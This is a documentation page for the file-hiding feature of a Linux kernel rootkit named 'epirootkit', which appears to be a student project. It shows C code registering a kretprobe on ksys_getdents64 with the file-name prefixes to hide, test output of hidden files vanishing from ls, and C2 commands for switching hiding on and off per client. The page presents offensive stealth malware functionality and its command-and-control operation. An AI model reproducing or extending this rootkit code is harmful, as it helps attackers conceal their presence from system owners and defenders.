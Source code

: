 ```yaml
---
title: "File Hiding"
description: "Hide files and directories from directory listings using syscall interception"
icon: "folder_off"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```


# File Hiding

Hide files and directories with specific prefixes from directory listings by intercepting `getdents64` syscall.

## Implementation

```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
};

file_hiding_state.getdents_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_getdents64",
    .handler = getdents64_ret_handler,
    .entry_handler = getdents64_entry_handler,
    .data_size = sizeof(struct getdents_context),
    .maxactive = 20
};
```

Hooks `ksys_getdents64` syscall and filters directory entries matching hidden prefixes.

## Testing

```bash
# Create test files
touch /tmp/epirootkit_test.txt /tmp/normal_file.txt

# Without file hiding
ls /tmp/
# Output: epirootkit_test.txt  normal_file.txt

# With file hiding enabled
ls /tmp/
# Output: normal_file.txt
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
enable-file-hiding Client-1    # Enable hiding
disable-file-hiding Client-1   # Disable hiding
status Client-1                # Check state
```

Files remain accessible by full path - only directory listings are filtered. 